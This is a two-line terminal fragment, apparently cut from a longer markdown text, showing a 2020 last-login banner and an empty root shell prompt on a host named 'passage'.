Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
root@passage:~# 
```